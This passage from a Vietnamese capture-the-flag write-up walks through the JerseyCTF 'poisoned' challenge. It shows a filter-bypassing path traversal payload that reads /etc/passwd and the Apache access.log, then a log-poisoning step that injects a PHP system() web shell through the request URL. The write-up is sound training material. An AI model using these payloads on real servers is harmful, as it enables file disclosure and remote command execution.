 thôi để cho chắc chắn thì mình nghĩ nên intruder chứ ai mà biết nó filter cái gì.

sau một hồi chạy intruder mình tìm thấy paylaod đúng đây: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//etc/passwd

![img](./images/9.png)

Tiếp theo để thực hiện Poinsoned log thì mình cần phải biết file log là gì.

ta lại tiếp tục thay đoạn etc/passwd bằng cách log file phổ biến.
sau một hồi Intruder nữa mình tìm thấy log file này: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log

![img](./images/10.png)

Ta thấy log này lưu trữ các truy cập từ người dùng đúng không. kể cả nãy giờ mình truy cập etc/passwd với access.log nó cũng lưu
tiếp theo chèn đoạn php sau: `<?php system($_GET['poison']);?>` bằng cách truy cập link:
`https://jerseyctf-poisoned.chals.io/<?php system($_GET['poison']);?>`   để nó được lưu vào access.log

cái đoạn /`<?php system($_GET['poison']);?>`  này cũng sẽ được lưu vào file access.log và điều hay ở chỗ ta có thể thực thi được nó luôn
